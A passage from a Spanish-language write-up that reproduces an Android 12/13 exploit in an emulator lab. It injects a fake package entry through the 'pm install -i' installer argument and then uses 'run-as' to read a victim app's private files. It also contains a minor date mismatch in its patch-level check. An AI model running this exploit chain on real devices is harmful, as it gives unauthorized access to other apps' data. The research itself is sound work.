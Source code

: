    Para efectos prácticos, nuestra `PAYLOAD` quedaría así:
   
   ```bash
   PAYLOAD="@null
   com.example.vulnerable0 10147 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
   ```
&nbsp;
3. Usando nuestra PAYLOAD, instalamos una app cualquiera usando `pm`. Según las pruebas hechas, esta aplicación no puede ser _debuggable_:
   
   ```bash
   pm install -i "$PAYLOAD" any-app.ap
   ```
&nbsp;
4. Podemos probar si el exploit funcionó listando los archivos privados de la aplicación _víctima_:
   
   ```bash
   run-as com.example.vulnerable0 ls -al /data/data/com.example.vulnerable
   ```
&nbsp;
   Si obtenemos un listado de archivos, ¡voilá!, el exploit funcionó.

Pero vayamos a los detalles de la práctica: usar un emulador, y hacer todo el proceso en un ambiente controlado.

## --[ 0x05 Probar el exploit y recolectar datos ]--

Para este experimento se usó el _Virtual Device Manager_ que viene con *Android Studio* para correr una imagen de un **Pixel 4 con API 31 (Android 12) con Google Play Services (sin root)**. En principio se probó con el mismo modelo, pero con API 33 (Android 13), y al parecer la imagen instalada ya tenía la actualización que corrige esta vulnerabilidad (exactamente esa actualización).

**TODO:** Aprender a instalar imágenes en el emulador con niveles de parche anteriores a los que vienen por defecto.

Se creó una app de prueba, vacía, que no hace nada, llamada **dummyApp**, para ser usada como la app que se instala en el último paso de la explotación. Se compiló como _release_ para que funcione en este experimento.

Se creó otra app, igualmente vacía, para probar con una aplicación que corriera en el dominio de SELinux _untrusted_app_. Esta app se llama **vulnerable0** (com.example.vulnerable0). Igualmente, se compiló como _release_ para que no sea _debuggable_.

Con el emulador arriba y adb conectado, abrimos una shell (`adb shell`), luego instalamos _vulnerable0_ en el emulador y empezamos:

### Chequeos preliminares

1. **Nivel de parcheo**:

   ```bash
   emulator64_x86_64_arm64:/ $ getprop ro.build.version.security_patch
   2021-12-01
   emulator64_x86_64_arm64:/ $
   ```
&nbsp;
   Tenemos que el último parche instalado en esta máquina es el del 12 de enero de 2021. Esta vulnerabilidad funciona para Android 12 y 13 con un nivel de parche menor a 2024-03-01. Por lo tanto, todo debería funcionar.
